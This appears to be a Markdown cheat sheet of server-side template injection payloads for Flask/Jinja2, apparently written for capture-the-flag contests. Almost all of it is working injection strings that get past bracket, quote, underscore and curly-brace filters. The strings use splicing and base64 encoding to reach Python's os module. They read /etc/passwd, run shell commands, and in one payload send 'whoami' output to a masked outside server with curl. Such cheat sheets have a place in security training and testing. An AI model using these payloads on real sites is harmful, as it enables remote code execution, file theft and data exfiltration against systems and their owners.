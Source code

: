 ## What Ideas when encountering SSTI questions
- Consider viewing configuration files or considering command execution

## Fancy bypass
### Bypass brackets
- The `pop()` function is used to remove an element in the list (the last element by default) and return the value of that element, or use `getitem`

```python
__mro__[2]== __mro__.__getitem__(2)
''.__class__.__mro__.__getitem__(2).__subclasses__().pop(40)('/etc/passwd').read()
```

### Bypass quotation marks
- `request.args, request.values, request.cookies` are attributes in flask. To return the requested parameter, here the path is used as the variable name, and the following path is passed in and the filtering of quotes is bypassed.

```python
{{().__class__.__bases__.__getitem__(0).__subclasses__().pop(40)(request.args.path).read()}}&path=/etc/passwd
```

### Bypass double underscore
- Also utilize `request.args, request.values, request.cookies`

```python
{{ ''[request.args.class][request.args.mro][2][request.args.subclasses]()[40]('/etc/passwd').read() }}&class=__class__&mro=__mro__&subclasses=__subclasses__
```

### Splicing bypass
```python
object.__subclasses__()[59].__init__.func_globals['linecache'].__dict__['o'+'s'].__dict__['sy'+'stem']('ls')
().__class__.__bases__[0].__subclasses__()[40]('r','fla'+'g.txt')).read()
```

### Encoding bypass
```python
().__class__.__bases__[0].__subclasses__()[59].__init__.__globals__.__builtins__['ZXZhbA=='.decode('base64')]("X19pbXBvcnRfXygnb3MnKS5wb3BlbignbHMnKS5yZWFkKCk=".decode('base64'))(
Equivalent to
().__class__.__bases__[0].__subclasses__()[59].__init__.__globals__.__builtins__['eval']("__import__('os').popen('ls').read()")
```

### Bypass {{or}}
- Bypass using `{%`
```python
{% if ''.__class__.__mro__[2].__subclasses__()[59].__init__.func_globals.linecache.os.popen('curl http://xx.xxx.xx.xx:8080/?i=`whoami`').read()=='p' %}1{% endif %}
```
